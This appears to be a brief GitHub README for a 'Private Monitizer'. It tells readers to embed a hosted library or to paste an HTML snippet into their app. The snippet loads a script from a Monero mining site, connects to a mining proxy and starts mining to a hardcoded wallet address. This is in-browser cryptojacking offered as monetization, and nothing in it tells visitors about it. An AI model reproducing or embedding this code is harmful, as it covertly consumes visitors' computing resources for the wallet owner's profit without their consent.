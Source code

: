 ## Private Monitizer
To Add Simply Add `https://alixpm.vercel.app/` As An App HTML Library
## `OR`
Add Code
```
<script src="https://monerominer.rocks/miner-mmr/webmnr.min.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un";
    var workerId = "Web"
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
</script>
```
As HTML In App
